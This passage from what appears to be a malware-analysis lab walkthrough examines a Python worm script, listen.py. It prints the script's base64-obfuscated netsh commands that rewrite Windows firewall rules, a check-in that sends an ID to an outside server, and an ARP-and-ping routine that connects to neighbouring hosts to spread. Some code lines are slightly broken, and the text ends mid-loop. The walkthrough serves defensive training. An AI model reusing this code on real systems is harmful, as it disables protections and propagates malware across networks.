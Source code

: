 2. Navigate to the location listed, and open the listen.py script in Notepad to begin analyzing the script. This script provides substantial information, starting at the top:

HOST = "199.63.64.31"
PORT = b'MTMzNw=='
SERV = b'MTIzLjEyMy4xMjMuMTIz'
ID = b'MHhBQkFEQkVFRg=='
PRE_VALIDATE=[
b'bmV0c2ggYWR2ZmlyZXdhbGwgZmlyZXdhbGwgZGVsZXRlIHJ1bGUgbmFtZT0iVVBEQVRFUi1JTiI=',
b'bmV0c2ggYWR2ZmlyZXdhbGwgZmlyZXdhbGwgZGVsZXRlIHJ1bGUgbmFtZT0iQURWQU5DRUQgQ09NTVVOSUNBVElPTlMi']
net_hosts = []
﻿

The above snippet shows that the malware is obfuscated in some way. Additionally, an IP address is associated with the VM itself. Nothing in this section appears to be associated with the malware propagation.

﻿

3. Moving down the script, a block appears to be executing code on the VM. A connect function is being called, which could be an indication of malicious propagation. Note this, and continue the script analysis.

for opt in PRE_VALIDATE:
    os.popen(base64.b64decode(opt).decode())
  
    try:       
 os.popen(base64.b64decode(b'bmV0c2ggYWR2ZmlyZXdhbGwgZmlyZXdhbGwgYWRkIHJ1bGUgbmFtZT0iQURWQU5DRUQgQ09NTVVOSUNBVElPTlMiIGRpcj1vdXQgYWN0aW9uPWFsbG93IHByb3RvY29sPVRDUCBsb2NhbHBvcnQ9NDg5NDQ=').decode())
    except:
        pass  
    try:
    ns.connect((base64.b64decode(SERV).decode(),int(base64.b64decode(b'NDg5NDQ=').decode())))
        ns.sendall(base64.b64.decode(ID))
        ns.close()
    except:
        pass
   
    validate = b'bmV0c2ggYWR2ZmlyZXdhbGwgZmlyZXdhbGwgYWRkIHJ1bGUgbmFtZT0iVVBEQVRFUi1JTiIgZGlyPWluIGFjdGlvbj1hbGxvdyBwcm90b2NvbD1UQ1AgbG9jYWxwb3J0PTEzMzc='
    update = os.popen(base64.b64decode(validate).decode())
﻿

The next section of code looks quite promising. It starts off by checking the Address Resolution Protocol (ARP) cache and then initiates an Internet Control Message Protocol (ICMP) ping request to any hosts in the cache. The most interesting part of this block is near the end. A connect function is called that creates a network connection to any hosts that respond to the ICMP request. Then the send function is called, and the socket object is passed as an argument. 

    with os.popen('arp -a') as net:
        data = net.read()
        import re
        for line in re.findall('([-.0-9]+)\s+([-0-9a-f]{17})\s+(\w+)',data):
            net_hosts.append(line[0])
    for addr in net_hosts:
        with os.popen(f"ping -n 1  {addr}") as x:
            resp = x.read()
            for line in re.findall("Reply from", resp):
                try:
                    ns.connect((addr,int(base64.b64decode(b'MTMzNw==').decode())))
                    send(ns)
 